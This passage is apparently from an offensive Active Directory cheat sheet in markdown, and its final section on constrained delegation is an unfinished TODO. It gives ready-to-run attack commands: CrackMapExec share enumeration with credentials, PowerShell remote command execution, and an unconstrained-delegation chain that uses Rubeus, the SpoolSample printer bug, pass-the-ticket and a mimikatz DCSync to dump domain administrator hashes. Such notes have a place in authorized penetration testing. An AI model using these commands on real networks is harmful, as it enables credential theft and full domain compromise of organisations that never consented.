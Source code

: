 #### CrackMapExec
```
# There are many ways to do that, here is an example
crackmapexec smb hosts.list -u <user> -p <password> --shares --continue-on-success
```
#### Powershell Remoting
```
# Enable Powershell Remoting on current Machine (need admin)
Enable-PSRemoting -force

# Create and enter into a new PSSession
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;

New-PSSession -Credential $Credential | Enter-PSSession
```
#### Rce with PS credentials
```
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;

Invoke-Command -ComputerName <target_computer> -Credential $Credential -ScriptBlock { whoami }
```

#### Delegation

##### Unconstrained Delegation
When we have admin rights on a machine with the `TrustedForDelegation` attribute we can abuse it in order elevate our privileges to domain admin.
Note: it can be used to compromise another forest if the 2 forests have bidirectional relations and `TGTDelegation` set to True.
Goal: make a privileged user connect to our compromise machine.
```
# Monitoring incomings TGTs with rubeus:
.\rubeus.exe monitor /interval:2 /filteruser:DC01$

# Execute the printerbug to trigger the force authentication of the target DC to our machine (DC01 is compromised)
.\spoolsample.exe DC02.DOMAIN2.FQDN DC01.DOMAIN.FQDN

# Get the base64 captured TGT from Rubeus and inject it into memory:
.\rubeus.exe ptt /ticket:<base64_of_captured_ticket>

# Dump the hashes of the target domain using mimikatz:
.\mimikatz.exe "lsadump::dcsync /domain:DOMAIN2.FQDNM /user:DOMAIN2\Administrator" exit
```

##### Constrained Delegation
TODO
